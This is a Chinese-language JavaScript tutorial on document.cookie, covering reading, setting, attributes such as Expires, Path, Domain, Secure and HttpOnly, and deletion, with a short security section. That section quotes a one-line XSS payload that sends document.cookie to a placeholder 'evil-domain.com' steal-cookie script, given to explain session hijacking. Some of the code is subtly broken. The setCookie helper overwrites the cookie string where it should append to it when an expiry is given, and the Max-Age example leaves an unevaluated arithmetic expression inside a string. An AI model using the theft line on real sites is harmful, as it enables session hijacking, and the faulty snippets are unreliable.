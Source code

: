 ## 概述
使用 `document.cookie` 属性来创建 、读取、及删除 cookie。  
匹配到当前域名（domain）和路径（path）的未过期cookie会附加到当前页面的所有请求的请求头中。

**注意**：`AJAX（XHR2）`可通过设置`xhr.withCredentials = true`以及服务器端配合设置`header("Access-Control-Allow-Credentials: true")`来支持跨域发送cookies

### 屏蔽请求中携带cookie
- 将静态资源放在不同域或子域下
- ajax请求路径在不同域或子域下

### 安全
**路径限制并不能阻止从其他路径访问cookie**。使用简单的DOM即可轻易地绕过限制(比如创建一个指向限制路径的, 隐藏的`iframe`, 然后访问其 `contentDocument.cookie` 属性). 保护cookie不被非法访问的唯一方法是将它放在另一个域名/子域名之下, 利用同源策略保护其不被读取。  

Web应用程序通常使用cookies来标识用户身份及他们的登录会话。 因此通过窃听这些cookie, 就可以劫持已登录用户的会话。 窃听的cookie的常见方法包括社会工程和XSS攻击
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
`HttpOnly` 属性可以阻止通过js访问cookie, 从而一定程度上遏制这类攻击

## 获取cookie
`document.cookie` 将以字符串的方式返回所有的 cookie 。格式如下：
```
cookie1=value; cookie2=value; cookie3=value;`
```

**获取指定的cookie值**：
```js
function getCookie(name){
    var cookies = document.cookie;
    var cookieName = encodeURIComponent(name) + '=';
    var cookieStart = document.cookie.indexOf(cookieName);
    var cookieValue = null;
    if (cookieStart > -1) {
        var cookieEnd = cookies.indexOf(';', cookieStart);
        if (cookieEnd == -1) {
            cookieEnd = cookies.length;
        }
        cookieValue = decodeURIComponent(cookies.substring(cookieStart + cookieName.length, cookieEnd));
    }
    return cookieValue;
}

// 通过正则获取cookie
function getCookie(name) {
    // (^| ) 以后面的字符或空格开始。
    // ([^;]*) 只匹配除了;号之外的所有字符。
    // (;|$) 匹配以;号或以前面的字符为结尾的字符。
    if (name && new RegExp("(^| )" + name + "=([^;]*)(;|$)").exec(document.cookie)){
        return decodeURIComponent(RegExp.$2);
    } 
}

```
## 新建或修改cookie
通过`document.cookie`重新赋值新建或修改cookie（并不会完全重写cookie，相当于添加操作）。  

**新建或修改cookie**：
```js
document.cookie="name=paul";
```

### 可配置参数

**Expires**：    
为 cookie 添加一个过期时间（以 UTC 或 GMT 时间）。默认情况下，cookie 在浏览器关闭时删除
```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT";
```

**Max-Age**：  
设置cookie的有效时长。单位：秒
```js
// 设置cookie有效期一年
document.cookie="name=paul; max-age=365*24*60*60";
```

**Path**：  
设置cookie的路径。默认情况下，cookie 属于当前页面。
```js
// 设置cookie属于根路径
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/";
```

**Domain**：
设置cookie的域名。默认为当前文档位置的路径的域名部分。
```js
// 设置域名为 "*.a.com"
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com";
```

**Secure**：
设置cookie是否只通过https协议传输
```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com;secure";
```

**HttpOnly**：阻止通过js访问cookie（一般由服务端设置）

```js
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com;secure;HttpOnly";
```

**设置或修改指定cookie**
```js
function setCookie(opts) {
    var name = opts.name;
    var value = opts.value;
    var expires = opts.expires; // 
    var path = opts.path;
    var domain = opts.domain;
    var secure = opts.secure;
    var cookieText = encodeURIComponent(name) + '=' + encodeURIComponent(value);
    if (expires) {
        switch (expires.constructor) {
        case Number: // 单位秒
          cookieText = expires === Infinity ? "; expires=Fri, 31 Dec 9999 23:59:59 GMT" : "; max-age=" + expires;
          break;
        case String:
          cookieText = "; expires=" + expires;
          break;
        case Date:
          cookieText = "; expires=" + expires.toUTCString(); // 或者 toGMTString()
          break;
        }
    }
    if (path) {
        cookieText += '; path=' + path;
    }
    if (domain) {
        cookieText += '; domain=' + domain;
    }
    if (secure) {
        cookieText += '; secure';
    }
    document.cookie = cookieText;
}
```

## 删除cookie
设置 expires 参数为以前的时间即可

```js
document.cookie = "name=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
```
**注意**：
- 删除时不必指定 cookie 的值
- 如果要删除非当前路径下的cookie，需制定`path`参数

**删除指定cookie**
```js
function removeCookie(name) {
    document.cookie = name + "= ; expires=" + new Date(0);
}
```
**清楚所有cookie**
```js
function clearCookie(path,domain){
    // 获取所有cookie的key
    var keys = document.cookie.match(/(?!\s)([^;\=]+)(?=\=.*(;|$))/g);
    var forPath = path ? ";path=" + path : "";
    forPath += domain ? ";domain=" + domain : "";
    keys.forEach(function(item,index){
        document.cookie = item + "= ; expires=" + new Date(0) + forPath;
    });
}
```

**参考**：
- [MDN：cookie](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie)
- [菜鸟教程：cookie](http://www.runoob.com/js/js-cookies.html)
